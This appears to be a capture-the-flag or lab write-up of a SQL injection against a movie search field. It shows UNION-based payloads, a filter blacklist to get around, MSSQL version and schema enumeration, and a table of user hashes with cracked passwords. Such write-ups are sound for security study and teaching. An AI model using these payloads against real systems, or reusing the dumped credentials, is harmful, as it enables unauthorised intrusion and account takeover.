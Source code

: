 Doesn't appear to be SQL injectable.

```sql
SELECT name,release_date FROM movies WHERE name LIKE '%$INJECT%'
```

```sql
SELECT name,release_date FROM movies WHERE name LIKE '%$INJECT%'
```

```sql
SELECT name,release_date FROM movies WHERE name LIKE '%500%'--%'
```

`500%' ORDER BY 1-- -`

```sql
SELECT * FROM movies WHERE name LIKE '%500%' UNION SELECT 1,2,3,4,5,6-- -'
```

```sql
SELECT * FROM movies WHERE name LIKE '%500' UNION SELECT 1,2,3,4,5,6-- -'
```

Blacklist strings (case insensitive):

- `ORDER`
- `NULL`
- `/**/`

Backend DBMS is MSSQL.

```txt
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
	Sep 24 2019 13:48:23 
	Copyright (C) 2019 Microsoft Corporation
	Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
```

Databases:

- `master`
- `model`
- `msdb`
- `tempdb`
- `STREAMIO`
	- `movies`
	- `users`
		- `id`
		- `is_staff`
		- `password`
		- `username`
- `streamio_backup`

#### Cracked Credentials from `STREAMIO.users`

```txt
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
Alexendra:1c2b3d8270321140e5153f6637d3ee53
Austin:0049ac57646627b8d7aeaccf8b6a936f
Barbra:3961548825e3e21df5646cafe11c6c76
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Baxter:22ee218331afd081b0dcd8115284bae3
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
Carmon:35394484d89fcfdb3c5e447fe749d213
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Diablo:ec33265e5fc8c2f1b0c137bb7b3632b5
Garfield:8097cedd612cc37c29db152b6e9edbd3
Gloria:0cfaaaafb559f081df2befbe66686de0
James:c660060492d9edcaa8332d89c99c9239
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
```
